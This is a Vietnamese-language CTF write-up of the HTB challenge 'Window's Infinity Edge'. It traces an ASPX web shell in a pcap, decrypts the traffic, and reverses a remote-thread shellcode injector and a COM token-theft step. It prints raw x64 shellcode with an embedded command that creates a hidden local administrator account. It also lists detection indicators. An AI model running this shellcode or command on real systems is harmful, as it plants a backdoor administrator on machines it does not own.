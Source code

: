 ```yaml
---
title: HTB Window's Infinity Edge
published: 2025-07-24
description: ''
image: ''
tags: [Networking, MalwareAnalysis, Shellcode]
category: 'Malware Analysis'
draft: false 
lang: ''
---
```



# HTB Window's Infinity Edge
>author : kAiZ3n
>Decription : A motivated APT group has breached our company and utilized custom tooling. We've identified the implants on compromised systems and remediated the infection using advanced AntiVirus X. However, one server seems clean but has been exhibiting suspicious traffic. Can you spot something we could have missed while cleaning this system?
## Xử lý file pcap
![image](https://hackmd.io/_uploads/HyUa_qAIlx.png)

- Đầu tiên ta thấy Client gửi request tới server thông qua format multi data và ta thấy client đã Post một file upload.apsx thông qua /upload
tại lúc xử lý file tôi thấy nó sử dụng một Class Assembly.Load() đây được coi là red flag thường được dùng load các mal EXE or DLL
- Tạo môt Instance để runtime trong .NET
- sau đó nó sẽ truyền parameter vào là p and r
- p là dữ liệu người dùng trong requestFrom từ "data"
- r là hardcode 
![payload](https://hackmd.io/_uploads/HJtyO90Lge.jpg)
trích xuất ra file payload.exe check file nhanh với die thì đây là file .NET load vào ILSPY để đọc source
![image](https://hackmd.io/_uploads/S1i4O90Lxx.png)

- RequestForm["data"] là phân vùng bị enc code
- r là password như một hardcode key
- iv = "infinity_edgehtb" (hardcode)
- Attacker sẽ gửi payload ExecRunTime đã bị mã hóa thông qua RequestFrom['data']
- sau đó sẽ dùng key và iv decrypt và thực thi với Invoke
## Decryption Traffic
Check file pcap với các trường data= được gửi trong file shell.apsx
![image](https://hackmd.io/_uploads/rJrB5cCLlg.png)

![image](https://hackmd.io/_uploads/SkUNq9ALex.png)

Đây là script tôi xử lý
![decrypt](https://hackmd.io/_uploads/H1ilcqAUxg.jpg)

## Phân tích Traffic PlainText
Format output trong file Decrypt.bin
![image](https://hackmd.io/_uploads/HJnqq9ALll.png)
Đúng như idea ban đâu mỗi lần Request payload sẽ có một class SharPyShell và func ExecRunTime để Invoke và thực thi trên server theo như logic file NET


### Tiếp theo nó sẽ Drop một tool powershell script dùng để leo quyền (Privilege Escalation)
Spawn một cái powershell 
![payloadshell](https://hackmd.io/_uploads/SJxKCHALee.jpg)


![image](https://hackmd.io/_uploads/ByQU8IpLge.png)
Decrypt payload với base sau đó Xor với key
và chạy tools với các đối số 
Output 
![image](https://hackmd.io/_uploads/SJECLIaIlg.png)


### Xử lý Shellcode
Trong Script được gửi bởi attacker thì có 2 function InjectionShellcodeAsUser và InjectionShellcode

![payloadshell](https://hackmd.io/_uploads/SkyA3BCIxl.jpg)

snapshort ThreadParametes được truyền vào
![image](https://hackmd.io/_uploads/B1wgqGpIle.png)
1. Đăng nhập với user
2. Tạo một Process cmd.exe hoặc nếu Process có sẳn sẽ lấy PID được truyền vào hàm Injection Shellcode 
Mở Handle targetProcessHandle = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, false, processId); đóng vai trò Spawn Host cho DLL
3. Tính size và allocate shellcode vào memory và tính toán offset trong Memory với VirtualAllocA() và ghi shellcode vào vùng nhớ đó trong Process với WriteMemory() 
**IntPtr codeMemAddress = VirtualAllocEx(targetProcessHandle, IntPtr.Zero, codeMemorySize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);**

4. Tạo thread trong tiến trình cmd.exe:
Tạo RemoteThread chạy shellcode tại codeMemAddress, truyền threadParameterAddress vào.

**Đây gọi là kỹ thuật RemoteThread Injection**
**Tương tự cho InjectionShellcode**

### Phân tích shellcode DLL với IDAPro
**Tại điểm này call InjectShellcode với Entry 0x2880**

Chương trình sẽ gọi tới EntryPoint

![image](https://hackmd.io/_uploads/BkVx6B08xl.png)
Chương trình sẽ parser input và truyền vào hàm Juicy với phần payload shellcode
```
ThreadParameter:
    [filepath]\0
    [application_name]\0
    [CLSID]\0
    [port_Source]\0
    [ip_source]\0
    [port Destination]\0
    [ip_Dest]\0
    [Size of Payload Shellcode]\0
    [string_after_number]

```
### Parser ThreadParameter
![code](https://hackmd.io/_uploads/BJYD9BRLel.png)
```
Output:
[+] Parsed Data:
  filepath: C:\Windows\Temp\x1fvogijp5pyzn7\9nu8w1q
  application_name: notepad.exe
  clsid: {4991d34b-80a1-4291-83b6-3328366b9097}
  port_or_id: 48278
  ip_source: 127.0.0.1
  extra_wstring: 135
  copied_ascii: 127.0.0.1
  Juicy Payload size: 402
  juicy_payload: b'\xfcH\x83\xe4\xf0\xe8\xc0\x00\x00\x00AQAPRQVH1\xd2eH\x8bR`H\x8bR\x18H\x8bR H\x8brPH\x0f\xb7JJM1\xc9H1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRAQH\x8bR \x8bB<H\x01\xd0\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0P\x8bH\x18D\x8b@ I\x01\xd0\xe3VH\xff\xc9A\x8b4\x88H\x01\xd6M1\xc9H1\xc0\xacA\xc1\xc9\rA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88H\x01\xd0AXAX^YZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9W\xff\xff\xff]H\xba\x01\x00\x00\x00\x00\x00\x00\x00H\x8d\x8d\x01\x01\x00\x00A\xba1\x8bo\x87\xff\xd5\xbb\xf0\xb5\xa2VA\xba\xa6\x95\xbd\x9d\xff\xd5H\x83\xc4(<\x06|\n\x80\xfb\xe0u\x05\xbbG\x13roj\x00YA\x89\xda\xff\xd5cmd /c "net user /add admin_infinity ""Password2!"" /Y & net localgroup Administrators admin_infinity /add & echo xGk89_Ew > C:\\xor.k"\x00'
```
trong Hàm Juicy có tạo một Thread với function StartAddress cho việc xử lý Connection Network
và tại hàm Juicy tiếp quy trình Spawn Host Process và Injection Shellcode với **CreateRemoteThread**
![image](https://hackmd.io/_uploads/SJwmASRIll.png)
**Thành phần	Mục đích**
- a1 (CLSID)	Gọi COM trigger để lấy token SYSTEM
- a3, a4 (payload, size)	Shellcode được inject vào process mới
- CoGetInstanceFromIStorage	Trigger đối tượng COM
- CreateProcessWithTokenW / CreateProcessAsUser	Tạo process với token SYSTEM
WriteProcessMemory + CreateRemoteThread	Inject và thực thi payload

**Dấu hiệu tấn công / detection**
- Tạo ILockBytes, IStorage giả.
- Gọi CoGetInstanceFromIStorage với CLSID lạ.
- CreateProcessWithTokenW + VirtualAllocEx + WriteProcessMemory
- CLSID thường là COM hijack hoặc UAC bypass trigger.

Dump shellcode payload juicy ra va dung Floss
![image](https://hackmd.io/_uploads/ryhHZURLgl.png)
### InjectShellcodeAs be called và xử lý với x64dbg
![InjectShellcodeAS](https://hackmd.io/_uploads/Skd2W8CLlx.png)
![image](https://hackmd.io/_uploads/ry_lMU0Lgg.png)
shellcode này có dung tệp C:\xor.k được  tạo từ shellcode juicy payload
tôi sử dụng shcode2.py để convert shellcode.bin to EXE và debug nó trong x64dbg
![image](https://hackmd.io/_uploads/B1axpKAUee.png)
ngay tại điểm đầu code nó đã call một function và ta thấy các giá trị "C:\xor.k được hiển thị"
![image](https://hackmd.io/_uploads/S1Q2pFRUge.png)
Thử debug và chương trình đã bị crash ở vùn đọc file tôi nghĩ do không thể truy cập vùng nhớ lúc đọc file và tôi sẽ cấp quyền cho 2 vùng nhớ [rsp+10] và [rsp+20] sau đó debug tiếp
Tại offset 
```
mov qword ptr ss:[rsp+10h] ,rbx 
```
cấp quyền Write cho phân vùng này của kernel32 để sử dụng WriteFile/ReadFile ghi dữ liệu
![image](https://hackmd.io/_uploads/B1GLmqR8lx.png)
ER-- to ERW--
Tại offset
```
mov qword ptr ss:[rsp+20], r9
```
cấp quyền cho phân vùng r9
![image](https://hackmd.io/_uploads/SyJy4qRLxg.png)
![image](https://hackmd.io/_uploads/r1Sb450Uxe.png)
của .text file shel2.exe cho phép đọc và ghi dữ liệu
Do không có quyền truy cập vùng nhớ file và tôi phải patch nên dữ liệu đọc được sẽ là giá trị rác
![image](https://hackmd.io/_uploads/BJ2erqRLgx.png)

đặt breakpoint ở offset = 00007FF6214B1145
Fix lại giá trị rác của [rsp+161]
```
FF FE 78 00 47 00 6B 00 -> xGk89_Ew
```
vì thế đến đoạn xử lý [rsp+161] được coi là buffer of File tôi sẽ điền value file ở đó
và tiếp tục xor để lấy flag
![image](https://hackmd.io/_uploads/SkTrrqA8xg.png)

PS: Bài này mình thấy khá là nặng về Obfuscation và Reverse Engineering nếu như intend solution không cần phải guessy

